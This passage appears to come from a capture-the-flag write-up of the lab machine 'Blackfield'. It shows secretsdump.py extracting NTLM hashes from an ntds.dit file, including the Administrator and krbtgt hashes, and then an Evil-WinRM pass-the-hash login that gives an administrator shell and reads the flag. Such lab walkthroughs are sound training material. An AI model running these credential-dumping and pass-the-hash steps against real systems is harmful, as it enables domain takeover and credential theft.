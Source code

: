 ```

root@kali# secretsdump.py -system system -ntds ntds.dit LOCAL
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

[*] Target system bootKey: 0x73d83e56de8961ca9f243e1a49638393
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: 35640a3fd5111b93cc50e3b4e255ff8c
[*] Reading and decrypting hashes from ntds.dit
Administrator:500:aad3b435b51404eeaad3b435b51404ee:184fb5e5178480be64824d4cd53b99ee:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DC01$:1000:aad3b435b51404eeaad3b435b51404ee:65557f7ad03ac340a7eb12b9462f80d6:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:d3c02561bba6ee4ad6cfd024ec8fda5d:::
audit2020:1103:aad3b435b51404eeaad3b435b51404ee:c95ac94a048e7c29ac4b4320d7c9d3b5:::
support:1104:aad3b435b51404eeaad3b435b51404ee:cead107bf11ebc28b3e6e90cde6de212:::
BLACKFIELD.local\BLACKFIELD764430:1105:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD538365:1106:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD189208:1107:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD404458:1108:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD706381:1109:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD937395:1110:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD553715:1111:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
...[snip]...

```

### Shell

Armed with the administrator’s hash, I can use Evil-WinRM to get a shell:

```

root@kali# evil-winrm -i 10.10.10.192 -u administrator -H 184fb5e5178480be64824d4cd53b99ee

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents>

```

And get `root.txt`:

```
*Evil-WinRM* PS C:\Users\Administrator\desktop> cat root.txt
4375a629************************

```
